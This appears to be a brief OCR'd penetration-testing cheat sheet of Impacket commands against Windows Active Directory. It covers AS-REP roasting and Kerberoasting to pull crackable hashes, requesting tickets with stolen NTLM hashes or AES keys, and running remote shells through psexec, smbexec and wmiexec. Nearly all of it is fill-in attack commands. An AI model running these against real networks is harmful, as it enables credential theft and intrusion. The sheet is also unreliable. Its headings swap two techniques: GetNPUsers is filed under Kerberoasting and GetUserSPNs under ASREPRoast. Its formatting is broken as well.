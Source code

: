 # Installing`
- In Kali: `apt install impacket-scripts
- Github: https://github.com/SecureAuthCorp/impacket
- Local Locations: `/usr/share/doc/python3-impacket/examples`


# Check for Kerberoasting:
- `GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip -format hashcat/john`

## GetUserSPNs
### ASREPRoast:
- `impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`
- `impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`

## Kerberoasting:
- `impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>`

## Overpass The Hash/Pass The Key (PTK):
- `python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>`
- `python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>`
- `python3 getTGT.py <domain_name>/<user_name>:[password]`
## Using TGT key to excute remote commands from the following impacket scripts:
- `python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`
- `python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`
- `python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`